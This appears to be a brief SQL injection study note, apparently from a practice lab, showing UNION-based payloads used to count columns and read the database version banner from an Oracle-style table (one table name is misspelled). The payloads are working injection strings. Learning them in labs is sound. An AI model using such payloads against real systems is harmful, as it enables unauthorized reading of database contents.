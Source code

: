 - Injection

```sql
SELECT * FROM products WHERE category = 'Gifts' order by 2-- -' AND released = 1
```

```sql
SELECT * FROM products WHERE category = 'Gifts' union select '1','2' from dual-- -' AND released = 1
```

```sql
SELECT * FROM products WHERE category = 'Gifts' union select '1',banner from v$verion-- -' AND released = 1
```

## Identificación de versión y motor de base de datos (MySQL y MSSQL) || SQL injection attack, querying the database type and version on MySQL and Microsoft

- Query SQL

```sql
SELECT * FROM products WHERE category = '$INPUT$' AND released = 1
```

- Explotation

![](/img2/Pasted%20image%2020250707153759.png)
